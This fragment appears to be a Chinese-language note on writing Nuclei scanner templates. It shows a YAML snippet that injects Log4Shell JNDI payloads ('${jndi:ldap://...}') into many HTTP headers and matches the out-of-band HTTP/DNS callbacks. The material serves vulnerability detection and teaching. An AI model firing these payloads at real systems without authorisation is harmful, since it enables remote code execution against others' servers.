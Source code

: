 ```
        - 'X-Forwarded-For: ${jndi:ldap://{{interactsh-url}}/info}'
        - 'X-Originating-IP: ${jndi:ldap://{{interactsh-url}}/info}'
        - 'User-Agent: ${jndi:ldap://{{interactsh-url}}/info}'
        - 'Referer: ${jndi:ldap://{{interactsh-url}}/info}'
        - 'CF-Connecting_IP: ${jndi:ldap://{{interactsh-url}}/info}'
        - 'True-Client-IP: ${jndi:ldap://{{interactsh-url}}/info}'
        - 'X-Forwarded-For: ${jndi:ldap://{{interactsh-url}}/info}'
        - 'Originating-IP: ${jndi:ldap://{{interactsh-url}}/info}'
        - 'X-Real-IP: ${jndi:ldap://{{interactsh-url}}/info}'
        - 'X-Client-IP: ${jndi:ldap://{{interactsh-url}}/info}'
        - 'Forwarded: ${jndi:ldap://{{interactsh-url}}/info}'
        - 'Client-IP: ${jndi:ldap://{{interactsh-url}}/info}'
        - 'Contact: ${jndi:ldap://{{interactsh-url}}/info}'
        - 'X-Wap-Profile: ${jndi:ldap://{{interactsh-url}}/info}'
        - 'X-Api-Version: ${jndi:ldap://{{interactsh-url}}/info}'
        - 'Host: ${jndi:ldap://{{interactsh-url}}/info}'
            
    attack: clusterbomb
    matchers-condition: or
    matchers:
      - type: word
        part: interactsh_protocol
        name: http
        words:
          - "http"

      - type: word
        part: interactsh_protocol
        name: dns
        words:
          - "dns"
```

#### 辅助函数

##### 辅助函数

以下是可在 RAW 请求 / 网络请求中使用的所有支持的辅助函数的列表。

太多了记不住，cv 一下。。。
